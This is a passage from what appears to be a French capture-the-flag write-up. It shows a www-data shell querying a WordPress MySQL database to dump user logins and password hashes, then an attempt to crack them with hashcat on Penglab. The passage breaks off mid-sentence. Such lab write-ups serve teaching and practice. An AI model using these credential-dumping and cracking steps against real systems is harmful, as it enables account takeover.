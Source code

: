Je peux extraire les hashs des utilisateurs Wordpress :  

```plain
www-data@moee:/var/www/public_html$ mysql -u user -p wp_database 
Enter password:  
Reading table information for completion of table and column names 
You can turn off this feature to get a quicker startup with -A 

Welcome to the MySQL monitor.  Commands end with ; or \g. 
Your MySQL connection id is 113448 
Server version: 5.5.62-0+deb8u1 (Debian) 

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved. 

Oracle is a registered trademark of Oracle Corporation and/or its 
affiliates. Other names may be trademarks of their respective 
owners. 

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 

mysql> show databases; 
+--------------------+ 
| Database           | 
+--------------------+ 
| information_schema | 
| mydatabase         | 
| wp_database        | 
+--------------------+ 
3 rows in set (0.00 sec) 

mysql> select user_login, user_pass from wp_users;  
+------------+------------------------------------+ 
| user_login | user_pass                          | 
+------------+------------------------------------+ 
| user       | $P$BSsAlgA7qDOQFfZYVze6KO48091sn81 | 
| Snufkin    | $P$BghGdW9kvudcJWOnTi.TfmJw7tzsgR/ | 
| Joxter     | $P$B7SOjzTIu5bBYTnO1SfWyL2bJF51xn0 | 
| Boe        | $P$B7JYXSreWFvNpm3kbrHa9ho.NDG0K80 | 
+------------+------------------------------------+ 
4 rows in set (0.00 sec)
```

J'ai tenté en vain de les casser avec *Penglab* (des bébés pingouins sont donc morts sans raison valable, désolé) :  

```plain
!echo '$P$BSsAlgA7qDOQFfZYVze6KO48091sn81' > /tmp/hash.txt
!echo '$P$BghGdW9kvudcJWOnTi.TfmJw7tzsgR/' >> /tmp/hash.txt
!echo '$P$B7SOjzTIu5bBYTnO1SfWyL2bJF51xn0' >> /tmp/hash.txt
!echo '$P$B7JYXSreWFvNpm3kbrHa9ho.NDG0K80' >> /tmp/hash.txt
!hashcat -m 400 /tmp/hash.txt /content/wordlists/hashesorg2019
```

Sur le système se trouve deux utilisateurs autre que root :  
